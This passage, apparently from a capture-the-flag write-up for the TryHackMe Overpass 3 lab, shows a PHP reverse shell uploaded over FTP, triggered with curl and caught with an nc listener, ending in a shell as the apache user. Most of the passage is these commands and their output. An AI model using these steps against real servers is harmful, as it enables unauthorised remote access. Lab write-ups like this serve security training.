 ## Reverse Shell
We can use for example the php reverse shell from [Pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). After configuring it, we have to upload it:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ ftp $IP
Connected to 10.10.252.11.
220 (vsFTPd 3.0.3)
Name (10.10.252.11:kali): paradox
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||50870|)
150 Ok to send data.
100% |**************************************************************************************************************|  5493       11.53 MiB/s    00:00 ETA
226 Transfer complete.
5493 bytes sent in 00:00 (77.08 KiB/s)
ftp> ls -al 
229 Entering Extended Passive Mode (|||12264|)
150 Here comes the directory listing.
drwxrwxrwx    3 48       48            123 Sep 13 19:05 .
drwxrwxrwx    3 48       48            123 Sep 13 19:05 ..
drwxr-xr-x    2 48       48             24 Nov 08  2020 backups
-rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17  2020 index.html
-rw-r--r--    1 0        0             576 Nov 17  2020 main.css
-rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg
-rw-r--r--    1 1001     1001         5493 Sep 13 19:05 php-reverse-shell.php
226 Directory send OK.
ftp> ^D
221 Goodbye.
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$                    
```

We can know trigger the reverse shell, while listening on the local port:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ curl -X GET $IP/php-reverse-shell.php


```
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8081 
Listening on 0.0.0.0 8081
Connection received on 10.10.252.11 58324
Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:28:05 up  4:07,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (869): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ ls -al 
ls -al 
total 20
drwxr-xr-x.  17 root root  244 Nov 18  2020 .
```